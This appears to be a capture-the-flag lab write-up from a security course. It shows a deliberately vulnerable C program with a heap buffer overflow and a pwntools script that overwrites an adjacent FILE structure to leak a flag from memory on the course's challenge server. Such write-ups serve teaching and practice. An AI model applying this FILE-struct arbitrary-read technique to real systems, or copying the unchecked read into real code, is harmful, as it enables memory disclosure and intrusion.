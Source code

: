```yaml
---
title: Simple PWN 0x22(Lab - `AAR`)
tags: [CTF, PWN, eductf]

category: "Security > Course > NTU CS > PWN"
---
```


# Simple PWN 0x22(Lab - `AAR`)
###### tags: `CTF` `PWN` `eductf`

Version: Ubuntu 20.04

## Original Code
:::spoiler Original Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x10] = "FLAG{TEST}\n";

int main()
{
    FILE *fp;
    char *buf;

    buf = malloc(0x10);
    fp = fopen("/tmp/meow", "w");
    read(0, buf, 0x1000);
    fwrite(buf, 0x10, 1, fp);
    return 0;
}
```
:::

## Exploit - heap overflow + overlap flag
```python=
from pwn import *

# r = process('./chal')
r = remote('edu-ctf.zoolab.org', 10010)

context.arch = 'amd64'

flag_addr = 0x404050

raw_input()
payload = flat(
    p64(0)*4,
    p64(0xfbad0800),        #_flags
    p64(0),                 #_IO_read_ptr
    p64(flag_addr),         #_IO_read_end
    p64(0),                 #_IO_read_base
    p64(flag_addr),         #_IO_write_base
    p64(flag_addr+0x10),    #_IO_write_ptr
    p64(0)*8,               #_IO_write_end + _IO_buf_base + _IO_buf_end + _chain
    p64(0x1)                #_fileno
)

r.send(payload)

r.interactive()
```
